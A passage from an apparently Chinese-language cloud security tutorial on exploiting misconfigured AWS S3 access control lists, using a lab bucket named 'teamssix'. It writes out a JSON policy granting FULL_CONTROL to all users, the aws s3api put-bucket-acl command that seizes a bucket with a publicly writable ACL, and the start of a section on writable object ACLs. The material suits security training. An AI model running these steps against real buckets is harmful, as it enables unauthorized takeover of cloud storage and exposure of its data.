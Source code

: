 


通过官方文档，可以分析出这个策略表示任何人都可以访问、写入当前 Bucket 的 ACL



那么也就是说如果我们把权限修改为 FULL_CONTROL 后，就可以控制这个 Bucket 了，最后修改后的策略如下：

```json
{
    "Owner": {
        "ID": "d24***5"
    },
    "Grants": [
	{
            "Grantee": {
                "Type": "Group", 
                "URI": "http://acs.amazonaws.com/groups/global/AllUsers"
            }, 
            "Permission": "FULL_CONTROL"
        } 
    ]
}
```

将该策略写入

```python
aws s3api put-bucket-acl --bucket teamssix --access-control-policy file://acl.json
```

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-02-22/1645499424-805159-image.png)




再次尝试，发现就可以列出对象了

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-02-22/1645499444-119347-image.png)


## 0x08 Object ACL 可写

读取 Object 时提示被禁止

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-02-22/1645499451-422849-image.png)


查看目标 Object 策略发现是可读的，且内容如下：

```python
aws s3api get-object-acl --bucket teamssix --key flag
```

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-02-22/1645499458-956354-image.png)


这个策略和上面的 Bucket ACL 策略一样，表示任何人都可以访问、写入当前 ACL，但是不能读取、写入对象
